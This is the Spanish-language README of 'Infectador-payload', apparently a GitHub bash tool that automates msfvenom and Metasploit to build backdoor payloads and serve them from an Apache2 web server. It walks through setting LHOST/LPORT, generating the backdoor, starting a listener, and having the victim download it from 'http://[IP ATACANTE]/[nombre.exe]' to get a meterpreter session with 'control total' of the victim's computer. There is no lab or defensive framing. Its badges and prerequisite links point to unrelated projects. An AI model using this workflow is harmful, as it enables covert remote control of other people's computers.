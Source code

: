 # Infectador-payload

[![GoDoc](https://godoc.org/github.com/moby/buildkit?status.svg)](https://godoc.org/github.com/moby/buildkit/client/llb)
[![Build Status](https://github.com/moby/buildkit/workflows/build/badge.svg)](https://github.com/moby/buildkit/actions?query=workflow%3Abuild)
[![Go Report Card](https://goreportcard.com/badge/github.com/moby/buildkit)](https://goreportcard.com/report/github.com/moby/buildkit)
[![codecov](https://codecov.io/gh/moby/buildkit/branch/master/graph/badge.svg)](https://codecov.io/gh/moby/buildkit)

Herramienta perfecta para crear cargas utiles (Backdoors) a una alta velocidad, esta herramienta preside de diferentes opciones, incluiendo la opcion de poder subir tu carga util a un servidor web (apache2).

![backdoor](https://user-images.githubusercontent.com/69093629/104139012-b4ed6500-53a8-11eb-933c-95a869b21c6a.png)

- **INTERFAZ: Grafica**

- **IMPORTANTE: Para utilizar esta herramieta debes tener conocimientos medios en Linux ya que sino no sabras que es lo que estas haciendo.**

- **HERRAMIENTA: Automatizada**

## Pre-requisitos 📋

* [Metaploit](http://www.dropwizard.io/1.0.2/docs/) 
* [xterm](http://www.dropwizard.io/1.0.2/docs/) 

**Instalar Metasploit**
```
sudo apt-get install -y postgresql
```
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```
**Instalar Xterm**
```
apt-get install xterm 
```
## Instalacion ✅
```
git clone https://github.com/WackyHacker/Infectador-payload
```
```
cd Infectador-payload 
```
```
sudo su
```
```
bash Infectador-payload.sh
```

## Construido con 🛠️

* [Metasploit](https://www.metasploit.com/) - Despliege de carga util
* [Msfvenom](https://www.metasploit.com/) - Creador de cargas utiles
* [Apache2](https://httpd.apache.org/) - Servidor web

## Autor ✒️

* **WackyHacker** - *Todo el proyecto* - [WEIK](https://github.com/WackyHacker)

## Licencia 📄

Este proyecto esta bajo Licencia - mira el archivo [License.md](https://github.com/WackyHacker/Infectador-payload/blob/master/License.md) para mas detalles

## ¿Como funciona?

Antes de ejecutar la herramienta con ```sudo bash Infectador-payload```, ejecuta primero ```sudo su``` y después ejecuta ```bash Infectador-payload```, si no se hace puede que de problemas en el futuro.


![Captura de pantalla (34)](https://user-images.githubusercontent.com/69093629/104134506-41d4f600-538a-11eb-8aff-79a331979e98.png)


Una vez la herramienta ya esta ejecutada correctamente, se vera algo asi.


![Captura de pantalla (32)](https://user-images.githubusercontent.com/69093629/104134712-c5431700-538b-11eb-8f40-816c6b25a571.png)


Utilizarla es muy sencillo solo hay que seleccionar la opción a utilizar (la ultima esta en mantenimiento), una vez elegida debemos seleccionar la carga útil de nuestra preferencia.


![videosito](https://user-images.githubusercontent.com/69093629/104136758-66d06580-5398-11eb-9526-58302e9f286b.gif)


Una vez elegidas las opciones de preferencia a utilizar, hay que escribir el ```LHOST=[IP]``` , ```LPORT=[PUERTO]```>[Recomendable: 4444], el nombre de tu Backdoor sin su extensión [EX: exe, py] , y finalmente la ruta donde quieres guardar el Backdoor (ojo si eliges que el ataque se efectúe fuera de la red LAN >ngrok< la víctima no podra descargar e instalar el Backdoor a menos que este conectada en la misma red WI-FI que tu) si eliges sin querer subir tu Backdoor a un servidor apache2, para arreglarlo o pulsamos CTRL + C para salir de la herramienta, o puedes acceder a la ruta donde está alojado el servidor apache2 con este comando ```cd /var/www/html/``` y tu Backdoor estará ahí, para no tener problemas, cuando te pida que digites una ruta para guardar el Backdoor, pulsa 'ENTER' y se te guardará automáticamente en el mismo directorio que estás ahora mismo en la carpeta Backdoors.


Y se empezará a crear el Backdoor satisfactoriamente...


![video2](https://user-images.githubusercontent.com/69093629/104136537-2cb29400-5397-11eb-8d1d-3ffdea3bd598.gif)


Una vez termine de crearse la carga util nos hara dos preguntas la primera es '¿Quieres eliminar el Backdoor...?' le pondremos que no de lo contrario 
nos lo eliminara y tendremos que crear uno de nuevo, la segunda es '¿Quieres iniciar Metasploit?' aqui puedes o poner que si o abrir una nueva terminal y abrirlo manualmente.


![Captura de pantalla (42)](https://user-images.githubusercontent.com/69093629/104138852-61c6e280-53a7-11eb-806e-595e7e76e1f7.png)


Una vez todo hecho quedaria algo asi:


![Captura de pantalla (45)](https://user-images.githubusercontent.com/69093629/104149184-876ae080-53d5-11eb-9dfe-7e5966302165.png)


Ahora solo faltaria copiar la seccion que pone 'COPIE Y PEGUE ESTO EN METASPLOIT' lo copiamos y lo pegamos o lo hacemos manualmente, una vez hecho se nos quedaria en escucha nuestra carga util. Ahora iremos a nuestro ordenador victima y instalaremos la carga util de esta manera ``` http://[IP ATACANTE]/[nombre.exe] ``` 


![Captura de pantalla (46)](https://user-images.githubusercontent.com/69093629/104138953-355f9600-53a8-11eb-8fbb-5cd5825e6b06.png)


Una vez el Backdoor instalado a nuestro ordenador victima le llegara una conexion 'meterpreter' eso quiere decir que ya tendremos control total del ordenador victima.


![Captura de pantalla (47)](https://user-images.githubusercontent.com/69093629/104149114-5d192300-53d5-11eb-9c12-d6a2944c5568.png)


¡Dejame una ★ si te ha servido!




